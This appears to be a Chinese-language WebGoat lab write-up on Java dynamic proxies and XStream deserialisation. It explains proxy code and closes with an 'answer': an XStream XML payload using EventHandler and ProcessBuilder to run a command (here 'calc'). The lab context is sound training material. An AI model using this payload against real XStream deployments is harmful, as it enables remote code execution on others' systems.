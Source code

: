 ```java
InvocationHandler handler = new InvocationHandler() {  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
        System.out.println(method);  
        if (method.getName().equals("morning")) {  
            System.out.println("Good morning, student!");  
        }  
        return null;  
    }  
};  
Student student0 = (Student) Proxy.newProxyInstance(  
        Student.class.getClassLoader(), // 传入ClassLoader  
        new Class[] { Student.class }, // 传入要实现的接口  
        handler); // 传入处理调用方法的InvocationHandler  
student0.morning("Bob");

XStream xstream = new XStream();  
xstream.setClassLoader(ContactImpl.class.getClassLoader());  
xstream.alias("contact", ContactImpl.class);  
xstream.ignoreUnknownElements(); // 忽略未知元素  
  
System.out.println(xstream.toXML(student0));
```
输出
![](../images/Pasted%20image%2020241204113731.png)


大概理解？这里的Student实际上也是Proxy，当Student调用任何函数时，就会触发Main里定义的handler，无论如何都会输出一遍method，并根据method输出morning

动态代理用途：
动态代理允许将接口的实现与其使用分离。这种解耦使得代码更加灵活，可以在不修改客户端代码的情况下更改实现。
通过动态代理，您可以在调用实际方法之前或之后添加额外的逻辑，例如：
- **日志记录**：在方法调用前后记录日志。
- **权限检查**：在执行方法之前检查用户权限。
- **事务管理**：在方法调用前开始事务，在方法调用后提交或回滚事务。
这种增强功能通常在 AOP（面向切面编程）中使用，动态代理是实现 AOP 的一种常见方式。

而这个漏洞实际上是利用了Proxy的反序列化，搞出来一个这样类，赋值给监听的接口，于是后续该接口调用函数时就会触发漏洞
![](../images/Pasted%20image%2020241204135444.png)

至于网上使用`<sorted-set>`这样的写法是方便写这个触发的接口
让类不用赋值出去，在fromXml的调用链里就进行了比较，直接就能触发

> 
> 搜到的很好的参考 https://blog.csdn.net/Xxy605/article/details/126297121
> 一看id竟然还是认识的
> ![](../images/Pasted%20image%2020241204105018.png)

#### 1.2.4 答案

总之扯远了，关于本题触发可以写，命令行运行不成功也可以过（
```xml
<contact class='dynamic-proxy'>  
    <interface>org.owasp.webgoat.lessons.vulnerablecomponents.Contact</interface>  
    <handler class='java.beans.EventHandler'>  
        <target class='java.lang.ProcessBuilder'>  
            <command>                
	            <string>calc</string>  
            </command>        
        </target>        
        <action>start</action>  
    </handler>
</contact>  
```
